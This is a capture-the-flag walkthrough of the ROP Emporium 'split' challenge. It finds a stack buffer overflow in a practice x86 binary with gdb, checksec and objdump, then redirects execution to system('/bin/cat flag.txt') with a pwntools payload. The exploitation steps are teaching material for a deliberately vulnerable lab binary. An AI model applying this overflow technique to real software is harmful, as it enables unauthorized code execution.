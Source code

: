 # Split

Challenge: https://ropemporium.com/challenge/split.html


### Run the binary

```bash
root@localhost:~/rop/split# ./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> AAAAAAAAAA
Thank you!

Exiting
```

Let's pass in a bigger input to it.

```
root@localhost:~/rop/split# python3 -c "print('A'*64)" | ./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
Segmentation fault (core dumped)
root@localhost:~/rop/split#
```

Cool! Looks like there's a buffer overflow which we can take advantage of.


### Initial Analysis

Let's run `checksec` against this binary to see its properties and security options.

```bash
root@localhost:~/rop/split# checksec --file=split32
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   73 Symbols	  No	0		3		split32

```

Since `NX` is enabled, we would not be able to execute a shellcode off of the stack.
More info at: https://en.wikipedia.org/wiki/NX_bit


That's not the end of the world. Let's run it under gdb to see what's available to us.

```cpp
root@localhost:~/rop/split# gdb -q ./split32
GEF for linux ready, type `gef' to start, `gef config' to configure
93 commands loaded and 5 functions added for GDB 15.0.50.20240403-git in 0.00ms using Python engine 3.12
Reading symbols from ./split32...

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.ubuntu.com>
Debuginfod has been disabled.
To make this setting permanent, add 'set debuginfod enabled off' to .gdbinit.
(No debugging symbols found in ./split32)
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08048374  _init
0x080483b0  read@plt
0x080483c0  printf@plt
0x080483d0  puts@plt
0x080483e0  system@plt
0x080483f0  __libc_start_main@plt
0x08048400  setvbuf@plt
0x08048410  memset@plt
0x08048420  __gmon_start__@plt
0x08048430  _start
0x08048470  _dl_relocate_static_pie
0x08048480  __x86.get_pc_thunk.bx
0x08048490  deregister_tm_clones
0x080484d0  register_tm_clones
0x08048510  __do_global_dtors_aux
0x08048540  frame_dummy
0x08048546  main
0x080485ad  pwnme
0x0804860c  usefulFunction
0x08048630  __libc_csu_init
0x08048690  __libc_csu_fini
0x08048694  _fini
gef➤

```


### Walkthrough

At a first glance, the `usefulFunction` seems particularyly interesting.
Upon disassembling usefulFunction, we notice that there's a call to `system` with a string argument at `0x804870e`.

```cpp
gef➤  disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0804860c <+0>:	push   ebp
   0x0804860d <+1>:	mov    ebp,esp
   0x0804860f <+3>:	sub    esp,0x8
   0x08048612 <+6>:	sub    esp,0xc
   0x08048615 <+9>:	push   0x804870e
   0x0804861a <+14>:	call   0x80483e0 <system@plt>
   0x0804861f <+19>:	add    esp,0x10
   0x08048622 <+22>:	nop
   0x08048623 <+23>:	leave
   0x08048624 <+24>:	ret
End of assembler dump.
gef➤  x/s 0x804870e
0x804870e:	"/bin/ls"
gef➤

```
We can use gdb to inspect the value at `0x804870e`. It looks like the value is `/bin/ls`.

This basically means that `system` is being called to run `/bin/ls`.
So if we can overflow the stack and change the value in `eip` to `0x0804861a`, we should see a directory listing. Let's do that.

```bash
root@localhost:~/rop/split# python3 -c 'import sys; from pwn import *; sys.stdout.buffer.write(b"A"*44+p32(0x0804860c))' | ./split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
exploit2.py  exploit.py  flag.txt  payload  README.md  split32	split32.zip
Segmentation fault (core dumped)

```

Yay! There's the directory listing!

OK, what if we replace the argument of system to "cat flag.txt"? In theory, it would print the flag we are looking for :D
Let's check if we have the string "/bin/cat" somewhere in the binary. We can find this using gdb.

Re-run the binary under gdb and set a break point at main.

```cpp
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048550 <main+000a>      push   ebp
    0x8048551 <main+000b>      mov    ebp, esp
    0x8048553 <main+000d>      push   ecx
●→  0x8048554 <main+000e>      sub    esp, 0x4
    0x8048557 <main+0011>      mov    eax, ds:0x804a044
    0x804855c <main+0016>      push   0x0
    0x804855e <main+0018>      push   0x2
    0x8048560 <main+001a>      push   0x0
    0x8048562 <main+001c>      push   eax
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "split32", stopped 0x8048554 in main (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048554 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  grep "/bin/cat"
[+] Searching '/bin/cat' in memory
[+] In '/root/rop/split/split32'(0x804a000-0x804b000), permission=rw-
  0x804a030 - 0x804a041  →   "/bin/cat flag.txt"
gef➤
```


The exact string is present in the binary at address `0x804a030`. How very convenient!
We can see this in the output of `objdump` as well.

```bash
root@localhost:~/rop/split# objdump -M intel -s  --section .data split32

split32:     file format elf32-i386

Contents of section .data:
 804a028 00000000 00000000 2f62696e 2f636174  ......../bin/cat
 804a038 20666c61 672e7478 7400                flag.txt.
```

Alright, at this point we are all set to write our exploit.


```bash
root@localhost:~/rop/split# ./exploit.py
[+] Starting local process './split32': pid 76174
[*] Switching to interactive mode
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

There's the flag (⌐■_■)

